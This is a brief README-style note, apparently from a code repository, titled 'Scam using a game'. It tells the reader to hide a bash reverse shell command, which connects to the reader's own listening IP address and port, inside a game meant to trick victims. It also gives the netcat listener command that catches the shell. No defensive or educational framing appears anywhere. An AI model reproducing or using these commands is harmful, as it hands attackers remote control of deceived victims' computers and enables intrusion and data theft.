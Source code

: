 #Scam using a game

The command to insert in your scam game is as commented below:
<!-- /bin/bash -i >/dev/tcp/{YOUR_LISTENING_IP_ADDRESS}/{THE_PORT_YOURE_LISTENING_TO} 0<&1 2>&1 -->
The command to use for entry is:
<!-- nc -lnvp PORT -s YOUR_IP_ADDRESS -->
Note: The ip address in your file is the same as the ip you'll be listening using.
